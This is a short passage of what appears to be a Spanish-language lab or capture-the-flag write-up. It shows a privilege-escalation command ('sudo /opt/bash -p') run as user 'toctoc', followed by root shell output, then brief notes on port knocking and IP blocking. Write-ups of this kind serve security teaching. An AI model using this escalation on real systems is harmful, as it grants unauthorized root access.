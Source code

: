 ###### Usuario `[ toctoc ]`:

```bash
# Comando para escalar al usuario: ( root )
sudo /opt/bash -p
```

---

## Evidencia de Compromiso
```bash
# Captura de pantalla o output final
root@794bf2bb45ad:~# whoami
root
```

---

## Lecciones Aprendidas
1. Aprendimos la tecnica **Port Knocking** que proteje puertos de red cerrados. 
## Recomendaciones de Seguridad
- Vemos que se puede bloquear una **IP** tras multiples intentos fallido.